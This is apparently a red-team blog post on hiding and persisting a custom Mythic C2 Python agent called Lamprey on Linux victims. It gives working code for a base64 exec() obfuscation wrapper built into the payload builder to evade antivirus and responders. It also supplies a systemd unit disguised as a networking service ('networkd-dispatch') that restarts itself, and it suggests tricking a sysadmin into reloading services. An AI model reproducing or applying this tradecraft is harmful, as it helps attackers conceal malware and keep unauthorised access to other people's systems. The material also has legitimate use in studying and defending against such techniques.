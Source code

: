 # Linux Persistence and Evasion with Mythic Lamprey #1
## Introduction
I recently developed an agent for the Mythic C2 framework.  I wanted to learn how to effectively use it, so I figured I would play with persistence methods in Linux to stay in a victim, and stay quiet.  
Is my agent the best one out there?  No.  Are there better Python ones?  Absoulutely.  However, I understand Lamprey better then I understand Medusa (or any other agent), which will allow me to have better control of what goes on in the victim.  A tool's utility is directly proportional to your understanding of it. 
Do I have a plan for how this blog post is going to go?  Not really.  I am just going to try different methods and write about them as I go. 

## EDR/AV Evasion
IF you can't execute on a system because of an EDR or AV, it doesn't matter how well you can hide yourself from an IRT.  Let's see what commonly-used EDRs/AVs think of Lamprey:

### Virustotal
The go-to tool to check if a file is malware is virustotal.com.  It's super easy to upload a file and get opinions from a ton of the most well-known AVs out there.  Do they like Lamprey?  Let's upload a sample.  
![virustotal Lamprey](/images/2022/virustotalLamprey.png){:class="img-responsive"}
Surprisingly, despite the use of POST calls and `os.popen()`, that apparently isn't enough to trigger these AVs to label Lamprey as malware.  I see this as an absolute win!
I think we can do a little better though.  

### Evasion is Based
_(Ok, I don't like how kids these days talk either, I'm talking about a different kind of base... I promise)_
Even though Lamprey isn't detected by anything on virustotal, that doesn't mean we can't still make it harder to detect.  Good enough isn't fun when we know how to do better.  Let's use a very interesting Python function to make Lamprey one layer deeper.  That is, `exec()`.  `exec()` executes a string as though it were Python code.  So here's my plan:  Encode a Lampry.py payload into base64, copy that as a string in to a variable in a new Python payload, add another line in that payload that will decode the string from base64 and send it to `exec()`.  This way, even if the `os.popen()` call is flagged by some software on the victim, that string will never be in the file in the first place.  All the decoding is happening in memory, not on the disk.  This also helps evasion against IRTs or nosy users.  (Although, if they know anything about what they're doing, they'll immediately recognise what is going on, so don't put too much faith in this method.)  So, it's all good and fine to do this manually, but we are using the powerful Mythic framework, are we not?  (That was rhetorical, we are using it.)  We can make this base64 encoding an option in the build options section of Lamprey itself.  Then, if that flag is set, in builder.py, we can take the built payload, translate it into base64, and add the decoder.  In fact, all this happens in builder.py.  Let's add that now:

#### Theory is Boring, Let's Code
First, we need the decoder, so we can bring it into the builder.py script.  In the agent_code directory (where base_agent.py is located), create a file called decoder.py.  In it, we will have the code:
```
import base64
encoded = "encoded_code"
exec(base64.b64decode(encoded.encode()))
```
This is a pretty self-explanatory three lines of code.  The only think you will want to make note of, is that the "encoded_code" string (but not the quotation marks) will be replaced with the encoded form of Lamprey.py. 

Now that we have the decoder finished, we need to edit builder.py (in the mythic/agent_functions directory).  The first addition we want to add is the build parameter so the operator can choose if they want it to be base64 encoded or not.  in the build_parameters array, we need to add the following:
```
BuildParameter(
            name="encoding",
            parameter_type=BuildParameterType.ChooseOne,
            description="Choose payload encoding",
            choices=["py", "base64"],
            default_value="py"
        ),
```
These gives the metadata to the Mythic UI so it can give the operator the choice betwen a standard py output or the new base64 one.  
Next, we add the code to actually implement the decoder.  In the "build" function, right before it returns the base_code, add the following lines:
```
if self.get_parameter("encoding") == "base64":
            encoded_code = base64.b64encode(base_code.encode())
            decoder_code = open(self.agent_code_path / "decoder.py", "r").read()
            base_code = decoder_code.replace("encoded_code",encoded_code.decode())
```
This checks the "encoding" build parameter that we specified previously to see if "base64" was selected.  If it was, encode the current base_code that is Lamprey.py.  Then, we open decoder.py and store that as a string in decoder_code.  Finally, we replace the "encoded_code" string that I mentioned earlier with encoded_code (the encoded version of Lamprey.py) and assign that to base_code, right before it returns that to Mythic.  

And that's it!  We can build a base64 encoded form of Lamprey! 
Oh man, this think looks evil.
![lamprey base64](/images/2022/lampreyB64.png){:class="img-responsive"}
## Embedding in the System
Our goal in persistence is to invisible and hard to get rid of.  Let's talk about that.  (*insert rooster breathing fire*)

### Services
In Linux, a ton of programs run in the background without users seeing much evidence that they are doing so.  Normally, these are things like webservers, networking managers, and other system-related tasks that the user doesn't care much about the operation of.  These are all run as services.  You might be tempted to think that the best part of services for our purposes is their relative invisibility.  While this is certainly a really useful attribute, it isn't the most beneficial aspect of using services to run Lamprey.  We can make services run at startup.  Yep, that's right, we can embed our malware in the system, so that it doesn't stop when a user inevitably restarts the box.  Combine that with services' relatively invisible nature, and we have a fantastic starting point for persistence.  
A great resource I used to implement Lamprey as a service (can I please call it LaaS?) is [this Medium site.](https://medium.com/codex/setup-a-python-script-as-a-service-through-systemctl-systemd-f0cc55a42267)
Again, theory is only valuable if we implement it.  Let's get to work.  (Note: This won't generate in Mythic, this is a custom systemd service file that you will have to make yourself)

#### Coding Time Again
Make a file in /etc/systemd/system/ called <servicename>.service.  You could call it Lamprey.service, but do you really want to be that blatant?  I think something nicer like networkd-dispatch.service sounds much more "normal" to someone who might not know better.  Anyway, pick a name and make that file.  Then, we can write the following to that file:
```
[Unit]
Description=Networking daemon service dispatcher
After=multi-user.target

[Service]
Type=simple
Restart=always
ExecStart=/usr/bin/python3 <path to>/Lamprey.py

[Install]
WantedBy=multi-user.target
```
This is the most general use-case form of this service.  There are a couple tweaks we could make though for special situations.
 - After: This tells the service to start only afer the multi-user runtime is reached.  If we wanted, we could theoretically have this service run at a lower service level.  I haven't actually tried this, but it should work in theory. 
 - Restart: Right now, restart is set to always.  This means that service will automatically restart when exited (or if it fails).  While this does add another level of persistence, it doesn't allow us to truly exit Lamprey from the Mythic console, as it will keep restarting.  If we are trying to stay hidden, there may be times when we really need Lamprey to die, which Restart=always won't allow. 
 - ExecStart: I left Lamprey.py as the filename as the file to run.  Again, this isn't very hidden.  So, I would change the name of the payload to something more similar to your service name/description.  In my case, I would probably call it networkd-dispatch.py.  

#### Implementation
Once you have Lamprey.py and the service file on the target (you could even use Lamprey to make the file on the victim), we need to implement it.  There are a couple primary steps:
1) Move the service file to /etc/systemd/system/
2) Run `systemctl daemon-reload`.  This lets systemctl know that there is a new service.  Note this will likely require sudo perms.  If you don't have the ability to reload the daemon, you can always wait until the sysadmin does one day.  (Maybe break something subtile in on of the services and try to get the sysadmin to do this for you ;D  Don't be too noisy though.)
3) Run `systemctl enable <service name>`.  This will cause your service to run on startup.  

And there you have it!  A nice persistence mechanism to keep your Mythic agent (or any other payload really) running on a target.

## Conclusion
Evasion and persistence is a very wide topic, and we have only scratched the surface with one method for each. 
If you want to keep researching, here are some ideas I might very well write about in the future:
 - AES encrypt the payload instead of just encoding it.  Lock down your own files so nobody can access them without your permission. This could also be useful for self destruction if a sandbox-detection system is added
 - Take over existing services on a system to run the payload.  Misconfigured permissions and a server running a lot of services would be a prime environment for one hijacked service to get lost in the data.

As always, thanks for reading and I hope you learned something!

